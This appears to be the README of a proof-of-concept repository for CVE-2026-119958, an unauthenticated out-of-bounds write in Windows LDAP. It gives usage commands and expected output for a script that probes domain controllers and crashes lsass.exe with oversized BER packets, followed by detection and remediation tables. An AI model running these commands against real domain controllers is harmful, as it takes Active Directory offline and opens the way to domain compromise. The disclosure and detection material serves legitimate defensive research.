

<div align="center">

# CVE-2026-119958

### Windows LDAP — Unauthenticated Remote Code Execution via Out-of-Bounds Write


</div>

---

## Overview

An out-of-bounds write in the Windows LDAP client/server implementation allows an **unauthenticated remote attacker to execute arbitrary code** on systems with TCP 389/636 exposed. Domain controllers are primary targets. Microsoft rated the vulnerability CVSS 9.8 Critical and classified it as not publicly exploited at time of patch, but the unauthenticated network-reachable nature makes it a high-priority target for weaponization.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-119958 |
| **CVSS 3.1** | `9.8 Critical` — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-787 (Out-of-Bounds Write) |
| **Component** | Windows LDAP (`wldap32.dll` / `ntdsa.dll`) |
| **Affected** | Windows Server 2025, Windows 11 24H2 < build 10.0.26100.33822 |
| **Fixed** | KB5058411 (Windows Server 2025 / Windows 11 24H2) — November 10, 2026 |
| **Auth Required** | None — network-reachable, no credentials |
| **Disclosed** | 2026-11-10 |

---

## Vulnerability Details

The Windows LDAP implementation does not properly validate the length of certain BER-encoded fields in LDAP requests before writing to a fixed-size heap buffer. A specially crafted LDAP `SearchRequest` or `BindRequest` with an oversized attribute value triggers an out-of-bounds write in the Windows LDAP service, overwriting adjacent heap metadata. On domain controllers running `lsass.exe` with LDAP, this can lead to code execution under the LDAP service context.

The write primitive is in the BER length decode path — no authentication exchange is required before the vulnerable code is reached.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Lab environment only. Sending crafted LDAP to a domain controller crashes `lsass.exe` and takes the DC offline. Never run against production Active Directory.

### Setup

```bash
pip install ldap3 impacket
```

### Probe — confirm target is vulnerable

```bash
python3 poc.py --target dc01.lab.local --mode probe
```

Expected output:
```
[*] target: dc01.lab.local:389
[*] LDAP banner: Windows Server 2025 build 26100.xxxxx
[*] checking build number...
[!] build 26100.31xxx < 26100.33822 — LIKELY VULNERABLE
[*] sending safe probe BER packet (no overflow)
[+] LDAP response received — service alive, proceeding
```

### Trigger the OOB write (crash PoC)

```bash
# Default: oversized attribute in SearchRequest BER
python3 poc.py --target dc01.lab.local --mode crash

# Custom overflow size
python3 poc.py --target dc01.lab.local --mode crash --overflow-size 65535

# Target LDAPS (port 636)
python3 poc.py --target dc01.lab.local --mode crash --port 636 --tls
```

Expected output — vulnerable DC:
```
[*] target: dc01.lab.local:389
[*] sending malformed BER SearchRequest (overflow=65535 bytes)
    TCP write: 65558 bytes
    TCP response: (none — connection reset)
[!] VULNERABLE — DC stopped responding (lsass crash or reboot)
[*] check DC event log: Event 1000 / 1001 (Application Error) — werfault.exe / lsass.exe
```

Expected output — patched DC:
```
[*] target: dc01.lab.local:389
[*] sending malformed BER SearchRequest
    response: LDAP resultCode=2 (protocolError)
[+] NOT vulnerable — length validated, protocol error returned
```

### Available flags

| Flag | Description |
|---|---|
| `--target HOST` | DC hostname or IP (required) |
| `--port N` | LDAP port (default: `389`) |
| `--mode probe\|crash` | Probe only or trigger OOB write |
| `--overflow-size N` | BER length field value (default: `65535`) |
| `--tls` | Use LDAPS (port 636) |
| `--count N` | Number of packets to send (default: `1`) |

### Lab setup (isolated DC)

```bash
# Minimal lab: Windows Server 2025 Eval (unpatched) in Hyper-V / VMware
# Check build: winver → should show 10.0.26100.xxxxx < 33822
# Ensure no KB5058411 installed: Get-HotFix | Where {$_.HotFixID -eq "KB5058411"}
docker compose up -d  # lab docker compose provided in /lab/
```

---

## Detection

| Indicator | Notes |
|---|---|
| `lsass.exe` crash / Event 1000 on DC | Windows Application log: faulting module `wldap32.dll` |
| Unexpected inbound TCP 389/636 from non-domain hosts | Network IDS: external IP → DC port 389 |
| LDAP sessions without prior Kerberos/NTLM auth | LDAP audit log: anonymous bind followed by malformed BER |
| Reboot of domain controller without maintenance window | SIEM alert: unexpected DC reboot |

---

## Impact

Unauthenticated RCE on domain controllers running Windows Server 2025 / Windows 11 24H2 without November 2026 patches. A compromised DC gives an attacker full control over the Active Directory domain. At minimum, the OOB write causes `lsass.exe` to crash, taking the DC offline (DoS).

---

## Remediation

Install **KB5058411** (Windows Server 2025 / Windows 11 24H2 November 2026 Cumulative Update). The fix adds BER length validation before the heap write.

| Action | Detail |
|---|---|
| Install KB5058411 | November 10, 2026 Cumulative Update |
| Restrict LDAP access | Firewall: allow TCP 389/636 only from trusted subnets |
| Enable LDAP signing | Required signing prevents unauthenticated LDAP sessions |
| Monitor LDAP | Alert on anonymous binds to DCs from unexpected sources |

---

## References

- stack.watch: https://stack.watch/vuln/CVE-2026-119958/
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-119958
- Microsoft MSRC: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2026-119958

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.
